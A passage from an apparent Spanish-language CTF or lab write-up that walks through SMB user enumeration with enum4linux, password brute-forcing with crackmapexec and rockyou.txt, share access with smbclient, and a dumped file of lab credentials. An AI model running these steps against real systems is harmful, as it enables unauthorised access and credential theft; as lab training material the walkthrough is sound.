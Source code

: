 Utilizamos `enum4linux` para enumerar usuarios del sistema a través de Samba. Esta herramienta es muy útil para obtener una lista de nombres de usuario válidos, que luego podemos usar para ataques de fuerza bruta o adivinación de contraseñas.

```bash
enum4linux -a <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   Identificamos varios usuarios, entre ellos: `usuario1`, `usuario2`, `usuario3`, `administrador`, y `satriani7`.

### 2.2. Fuerza Bruta de Contraseñas SMB con CrackMapExec

Con la lista de usuarios, intentamos realizar un ataque de fuerza bruta contra el servicio SMB utilizando `crackmapexec` y un diccionario de contraseñas (`rockyou.txt`).

```bash
sudo crackmapexec smb <IP_DEL_OBJETIVO> -u '[USER]' -p /path/to/rockyou.txt --no-bruteforce
```

**Resultados:**

*   Para el usuario `satriani7`, encontramos la contraseña `50cent`.

### 2.3. Acceso a Recursos Compartidos SMB

Utilizamos `smbclient` para listar los recursos compartidos disponibles y acceder a ellos con las credenciales de `satriani7`.

```bash
smbclient -L // <IP_DEL_OBJETIVO> -U satriani7
# Contraseña: 50cent
```

**Recursos Compartidos:**

*   `myshare`: Carpeta compartida sin restricciones.
*   `backup24`: Carpeta compartida privada.

Accedemos a `myshare` y descargamos el archivo `access.txt`.

```bash
smbclient // <IP_DEL_OBJETIVO>/myshare -U satriani7
# Contraseña: 50cent
```

Encontramos el siguiente documentos con credenciales:
```
cat credentials.txt    
# Archivo de credenciales  
  
Este documento expone credenciales de usuarios, incluyendo la del usuario administrador.  
  
Usuarios:  
-------------------------------------------------  
1. Usuario: jsmith  
  - Contraseña: PassJsmith2024!  
  
2. Usuario: abrown  
  - Contraseña: PassAbrown2024!  
  
3. Usuario: lgarcia  
  - Contraseña: PassLgarcia2024!  
  
4. Usuario: kchen  
  - Contraseña: PassKchen2024!  
  
5. Usuario: tjohnson  
  - Contraseña: PassTjohnson2024!  
```